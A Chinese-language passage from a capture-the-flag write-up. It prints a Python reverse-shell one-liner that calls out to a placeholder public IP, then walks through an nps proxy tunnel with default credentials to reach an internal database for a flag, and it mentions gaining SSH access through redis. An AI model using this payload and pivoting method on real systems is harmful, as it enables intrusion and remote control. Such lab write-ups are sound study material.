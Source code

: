 ```python
payload:

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("你的公网ip",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

我这里用5555端口，在云服务器上开监听

![image-20231001114331002](C:\Users\Jednersaous\AppData\Roaming\Typora\typora-user-images\image-20231001114331002.png)

成功反弹shell

先放着shell不管，在服务端上开nps先做一下配置

![image-20231001114540971](C:\Users\Jednersaous\AppData\Roaming\Typora\typora-user-images\image-20231001114540971.png)

进入nps所在位置之后就nps start，随后进入默认http页面，默认端口是8080（有图形交互就是好

输入默认用户名和密码登录（admin，123）

找到’客户端‘，点击新增

![image-20231001114758505](C:\Users\Jednersaous\AppData\Roaming\Typora\typora-user-images\image-20231001114758505.png)

然后回到列表点开客户端ID前面的+号，会发现有个客户端命令，这就是我们要在shell执行的命令，

如此便可让我们的公网ip代理远程的内网

![image-20231001115014890](C:\Users\Jednersaous\AppData\Roaming\Typora\typora-user-images\image-20231001115014890.png)

成功连接之后，重新回到nps的管理页面，在客户端后面有个隧道按钮，点进去新增你的目标端口和想在公网上代理的端口

![image-20231001115146543](C:\Users\Jednersaous\AppData\Roaming\Typora\typora-user-images\image-20231001115146543.png)

然后我们的代理就已经完全布置好了

**9.开数据库连接找第二个flag**

不得不提我逆天的操作，用http打开数据库，我明明之前是用过的啊（恼

下一个DBeaver，新增数据库，选择正确的类型，输入公网+代理端口及给出的账号密码，成功连接

接着找找就能找到flag了，电脑给你你来你也行

![image-20231001115604255](C:\Users\Jednersaous\AppData\Roaming\Typora\typora-user-images\image-20231001115604255.png)

**flag2——-Are-YOu-myS0L-MasT3r?-**

稍微截点图（）

然后那个最开始的blog页面的admin权限账号密码也在里面，可以进去写点好东西（不是

**10.redis写入公钥，ssh连接getshell**

这个流程有点繁琐，我都有点不想复现了（（（

参照博客:https://blog.csdn.net/guo15890025019/article/details/116994677

